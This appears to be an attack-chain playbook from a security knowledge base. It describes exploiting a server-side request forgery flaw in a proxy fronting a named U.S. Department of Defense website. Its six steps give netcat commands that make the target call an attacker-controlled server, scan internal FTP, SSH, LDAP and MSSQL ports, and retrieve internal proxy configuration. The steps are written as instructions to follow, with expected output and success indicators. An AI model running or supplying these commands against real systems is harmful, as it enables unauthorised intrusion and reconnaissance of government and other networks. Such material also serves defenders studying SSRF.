

# SSRF Exploitation in DoD SSI Website for Internal Network Reconnaissance and Port Scanning

Multi-stage attack chain exploiting a Server-Side Request Forgery (SSRF) vulnerability in the front-end ProxySG cache server of the U.S. Department of Defense's SSI website. The attack allows arbitrary HTTP requests to internal endpoints, enabling port scanning via Cross-Site Port Attack (XSPA), service discovery (FTP, SSH, LDAP, MSSQL), and proxy configuration exposure for further reconnaissance.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/nc-netcat]]
- [[tools/whois]]

### Target Environment

- Web platform with HTTP server on port 80 (ProxySG or similar front-end proxy)
- Internal services on ports 20, 21, 22, 387, 389, 1431, 1433
- Network access to public-facing SSI website

### Initial Access Requirements

- No credentials required
- Public internet access to target domain
- Attacker-controlled server for logging incoming SSRF requests

## Detailed Attack Procedures

### Step 1: Trigger Initial SSRF
procedure: [[procedures/Trigger-SSRF-with-Crafted-HTTP-Request]]

**Objective**: Force the target server to make an outbound HTTP request to the attacker's controlled server, confirming SSRF vulnerability.

**Instructions**: Set up a listener on your server (e.g., using netcat or a web server) to capture incoming requests. Then, send a minimal HTTP request with an absolute URI lacking a Host header to the target on port 80 using [[commands/echo-nc-ssrf-trigger]]:

```bash
echo -ne "GET http\\://your-server.com/ HTTP/1.1\\r\\n\\r\\n" | nc target-ip 80
```

**Expected Output**: Target responds with HTTP/1.1 403 Forbidden; your server logs show incoming GET request from target's IP.

**Success Indicators**:
- Incoming request logged on attacker's server
- Target's response indicates request processing

### Step 2: Verify SSRF Origin
procedure: [[procedures/Verify-SSRF-via-Server-Logs-and-Whois]]

**Objective**: Confirm the SSRF request originates from the DoD SSI server by checking logs and performing WHOIS lookup.

**Instructions**: After receiving the log entry, run [[commands/whois-ip-lookup]] on the source IP:

```bash
whois target-ip
```

**Expected Output**: WHOIS output reveals organization as U.S. Department of Defense (e.g., 'Organization: DoD').

**Success Indicators**:
- IP matches SSI server's known range
- Organization details confirm DoD affiliation

### Step 3: Scan Internal Ports via XSPA
procedure: [[procedures/Port-Scan-Internal-Services-via-XSPA]]

**Objective**: Use SSRF to probe internal ports for running services like FTP, SSH, LDAP, and MSSQL.

**Instructions**: Craft requests targeting internal loopback or specific ports, e.g., for FTP on port 20:

```bash
echo -ne "GET http://127.0.0.1:20/ HTTP/1.1\\r\\n\\r\\n" | nc target-ip 80
```

Repeat for ports 21 (FTP), 22 (SSH), 387/389 (LDAP), 1431/1433 (MSSQL), observing responses like 503 or timeouts.

**Expected Output**: Varying responses (503 for open ports, timeouts for closed/filtered).

**Success Indicators**:
- 503 responses indicate open services
- Timeouts suggest filtered or closed ports

### Step 4: Test Loopback Redirects
procedure: [[procedures/Test-SSRF-with-Loopback-Redirects]]

**Objective**: Probe internal loopback for redirects or additional server behaviors.

**Instructions**: Send a request to loopback port 81:

```bash
echo -ne "GET http://127.0.0.1:81/ HTTP/1.1\\r\\n\\r\\n" | nc target-ip 80
```

**Expected Output**: HTTP/1.1 301 Moved Permanently if redirect exists.

**Success Indicators**:
- 301 response confirms internal access
- Reveals potential redirect chains

### Step 5: Expose Proxy Configuration
procedure: [[procedures/Discover-Proxy-Configuration-via-SSRF]]

**Objective**: Retrieve the ProxySG PAC file to uncover internal proxy details.

**Instructions**: Target the PAC file endpoint:

```bash
echo -ne "GET http://internal-host/proxy_pac_file HTTP/1.1\\r\\n\\r\\n" | nc target-ip 80
```

**Expected Output**: PAC file content exposing proxies on port 8080 for HTTP/HTTPS/FTP.

**Success Indicators**:
- PAC file retrieved with configuration details
- Internal proxy IPs and ports identified

### Step 6: Re-Verify SSRF Persistence
procedure: [[procedures/Re-Verify-SSRF-Persistence]]

**Objective**: Confirm the vulnerability remains exploitable over time.

**Instructions**: Send follow-up requests like:

```bash
echo -ne "GET http://your-server.com/20170710 HTTP/1.1\\r\\n\\r\\n" | nc target-ip 80
```

Monitor logs for continued access.

**Expected Output**: Ongoing log entries from target's IP.

**Success Indicators**:
- Persistent incoming requests
- No mitigation applied

## Attack Chain Summary

### Key Achievements

1. Confirmed SSRF in DoD ProxySG, enabling arbitrary internal requests.
2. Scanned and identified internal services (FTP, SSH, LDAP, MSSQL).
3. Exposed proxy configuration for potential deeper attacks.
4. Demonstrated use as a springboard for network reconnaissance.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Network Service Scanning]] Network Service Scanning
- [[Vulnerability Scanning]] Scanning IP Blocks

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery
- [[Reconnaissance]] Reconnaissance

---
*Last updated: 2023-10-01T00:00:00Z*
